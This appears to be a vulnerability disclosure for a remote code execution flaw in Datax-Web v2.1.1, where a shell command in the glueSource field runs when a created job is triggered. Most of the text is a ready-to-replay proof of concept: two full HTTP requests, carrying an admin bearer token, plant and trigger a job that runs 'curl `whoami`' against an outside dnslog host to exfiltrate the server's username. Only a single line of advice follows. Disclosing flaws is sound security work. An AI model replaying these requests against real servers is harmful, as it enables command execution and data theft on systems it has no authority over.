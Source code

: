 # Datax-Web - Remote Code Execution


### Vendor Homepage:

> https://github.com/WeiYe-Jing/

### Software Link:

> [Datax-Web](https://github.com/WeiYe-Jing/datax-web)

### Version:

v2.1.1

### RCE(Remote Code Execution):

> Remote Code Execution (RCE) refers to an attack where an attacker can execute arbitrary code on a remote computer, thereby gaining control over and compromising the target system. The attacker can execute this code without any user interaction, allowing them to infiltrate the target system and perform a wide range of malicious activities. These activities may include stealing sensitive information, altering data, spreading viruses or malware, and other harmful actions.

### Affected Components:

> /api/job/add/
> /api/job/trigger

> The `glueSource` parameter of the /api/job/add/ endpoint is vulnerable to Remote Code Execution (RCE).


![glueSource_path](https://github.com/jxp98/VulResearch/blob/main/2024/12/imgs/1.Datax-Web-Remote-Code-Execution_glueSource_path.png)
![glueSource_parameter](https://github.com/jxp98/VulResearch/blob/main/2024/12/imgs/1.Datax-Web-Remote-Code-Execution_glueSource_par.png)
![trigger](https://github.com/jxp98/VulResearch/blob/main/2024/12/imgs/1.Datax-Web-Remote-Code-Execution_trigger.png)
![dnslog](https://github.com/jxp98/VulResearch/blob/main/2024/12/imgs/1.Datax-Web-Remote-Code-Execution_dnslog.png)
![getshell](https://github.com/jxp98/VulResearch/blob/main/2024/12/imgs/1.Datax-Web-Remote-Code-Execution_getshell.png)

### Description:

> By sequentially calling the `/api/job/add/` and `/api/job/trigger` endpoints, an attacker can achieve remote execution of arbitrary system commands.

## Proof of Concept:

### request of /api/job/add

```
POST /api/job/add/ HTTP/1.1
Host: 119.8.XXX.XXX:20080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6Imppbmd3ayIsImV4cCI6MTczNDA3NjAyNCwiaWF0IjoxNzMzNDcxMjI0LCJyb2wiOiJST0xFX0FETUlOIn0.yR_yN8QJGq-mIQY3jJevgn1enONFf4gUk6BiYttHQqlLPflBX5SO0OjFopNqyu6dCo69zMqTJsbW8TqVoUpSrg
Referer: http://119.8.xxx.xxx:20080/index.html
Content-Length: 441
Cookie: Admin-Token=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6Imppbmd3ayIsImV4cCI6MTczNDA3NjAyNCwiaWF0IjoxNzMzNDcxMjI0LCJyb2wiOiJST0xFX0FETUlOIn0.yR_yN8QJGq-mIQY3jJevgn1enONFf4gUk6BiYttHQqlLPflBX5SO0OjFopNqyu6dCo69zMqTJsbW8TqVoUpSrg
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive

{"jobGroup":1,"jobCron":"00 40 00 * * ? *","jobDesc":"test1","executorRouteStrategy":"RANDOM","executorBlockStrategy":"SERIAL_EXECUTION","childJobId":"","executorFailRetryCount":0,"alarmEmail":"","executorTimeout":0,"author":"test","jobConfigId":"","executorHandler":"","glueType":"GLUE_SHELL","glueSource":"curl `whoami`.24slkx.dnslog.cn","jobJson":"","executorParam":"","replaceParam":"","jvmParam":"","incStartTime":"","partitionInfo":""}
```

### request of /api/job/add

```
POST /api/job/trigger HTTP/1.1
Host: 119.8.xxx.xxx:20080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6Imppbmd3ayIsImV4cCI6MTczNDA3NjAyNCwiaWF0IjoxNzMzNDcxMjI0LCJyb2wiOiJST0xFX0FETUlOIn0.yR_yN8QJGq-mIQY3jJevgn1enONFf4gUk6BiYttHQqlLPflBX5SO0OjFopNqyu6dCo69zMqTJsbW8TqVoUpSrg
Referer: http://119.8.xxx.xxx:20080/index.html
Content-Length: 30
Cookie: Admin-Token=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6Imppbmd3ayIsImV4cCI6MTczNDA3NjAyNCwiaWF0IjoxNzMzNDcxMjI0LCJyb2wiOiJST0xFX0FETUlOIn0.yR_yN8QJGq-mIQY3jJevgn1enONFf4gUk6BiYttHQqlLPflBX5SO0OjFopNqyu6dCo69zMqTJsbW8TqVoUpSrg
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive

{"jobId":3,"executorParam":""}
```


## Recommendations

In areas where remote code execution vulnerabilities could occur, it is essential to rigorously review the code logic to prevent the transmission of commands that could harm the server.
